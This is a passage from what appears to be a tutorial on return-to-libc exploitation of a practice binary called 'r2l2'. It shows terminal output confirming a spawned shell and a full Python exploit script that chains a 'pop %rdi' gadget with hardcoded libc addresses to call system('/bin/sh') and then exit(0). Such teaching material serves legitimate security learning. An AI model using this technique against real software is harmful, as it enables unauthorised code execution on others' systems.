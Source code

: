 A fork and an exit. That looks good! Again, the shell closes immediately since stdin closes, but this is easy to get past in the shell:

```
$ (cat pl.bin; cat) | ./r2l2
Input something: The first character was: a
echo $$
12779
<PRESS CTRL-Z>
[1]+  Stopped                 ( cat pl.bin; cat ) | ./r2l2
$ pstree -p $$
bash(11617)─┬─bash(12776)───cat(12780)
            ├─pstree(12800)
            └─r2l2(12777)───sh(12779)
```

We got a shell!

As a final exercise, we'll fix the exit code. As you may have noticed in the gdb output above, the program exits with exit code 2:

```
$ (cat pl.bin; cat) | ./r2l2
Input something: The first character was: a
^C
$ echo $?
2
```

> The `%rdi` register is changed to 0x2 by a function called by `system()`. The `%rdi` register is *volatile* (not preserved acrosss function calls).

We need to find a gadget that we can run before `exit()` that will put zero into `%rdi`. Luckily, we already have a gadget like this, our old pal `pop %rdi; ret`. By putting its address and 8 null bytes before the address of `exit()`, we can accomplish our goal:

```python
# r2l2_exploit.py
import struct

# fill stack and saved frame pointer
pad = 40 * "a"

poprdi  = struct.pack("<Q", 0x401203)
csystem = struct.pack("<Q", 0x7ffff7e2ec30)
binsh   = struct.pack("<Q", 0x7ffff7f6f519)
cexit   = struct.pack("<Q", 0x7ffff7e23e30)
ecode = 8 * "\x00"

print pad + poprdi + binsh + csystem + poprdi + ecode + cexit
```

> The above exploit is more readable and easier to modify than a long oneliner. The `struct.pack("<Q", ...)` let's us type in addresses without leading zeroes and have them returned as a string packed to a little-endian unsigned long long (8 bytes).
